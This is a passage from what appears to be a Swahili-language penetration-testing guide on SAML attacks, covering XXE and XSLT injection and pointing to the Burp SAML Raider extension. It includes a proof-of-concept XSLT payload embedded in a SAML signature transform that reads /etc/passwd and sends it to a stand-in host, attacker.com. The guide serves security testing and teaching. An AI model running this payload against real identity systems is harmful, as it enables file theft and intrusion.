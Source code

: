 ```xml
<ds:Reference URI="#_df55c0bb940c687810b436395cf81760bb2e6a92f2">...</ds:Reference>
</ds:SignedInfo>
<ds:SignatureValue>...</ds:SignatureValue>
[...]
```
## Tools

Unaweza pia kutumia nyongeza ya Burp [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) kuunda POC kutoka kwa ombi la SAML ili kujaribu uwezekano wa udhaifu wa XXE na udhaifu wa SAML.

Angalia pia hotuba hii: [https://www.youtube.com/watch?v=WHn-6xHL7mI](https://www.youtube.com/watch?v=WHn-6xHL7mI)

## XSLT kupitia SAML

Kwa maelezo zaidi kuhusu XSLT nenda kwa:

{{#ref}}
../xslt-server-side-injection-extensible-stylesheet-language-transformations.md
{{#endref}}

Mabadiliko ya Lugha ya Mtindo wa Kupanuka (XSLT) yanaweza kutumika kubadilisha hati za XML kuwa fomati mbalimbali kama HTML, JSON, au PDF. Ni muhimu kutambua kwamba **mabadiliko ya XSLT yanafanywa kabla ya uthibitishaji wa saini ya dijitali**. Hii ina maana kwamba shambulio linaweza kufanikiwa hata bila saini halali; saini iliyojitengeneza au isiyo halali inatosha kuendelea.

Hapa unaweza kupata **POC** ya kuangalia aina hii ya udhaifu, katika ukurasa wa hacktricks ulioelezwa mwanzoni mwa sehemu hii unaweza kupata payloads.
```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
...
<ds:Transforms>
<ds:Transform>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="doc">
<xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
<xsl:variable name="escaped" select="encode-for-uri($file)"/>
<xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
<xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
<xsl:value-of select="unparsed-text($exploitUrl)"/>
</xsl:template>
</xsl:stylesheet>
</ds:Transform>
</ds:Transforms>
...
</ds:Signature>
```
### Tool

Unaweza pia kutumia nyongeza ya Burp [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) kuunda POC kutoka kwa ombi la SAML ili kujaribu uwezekano wa udhaifu wa XSLT.
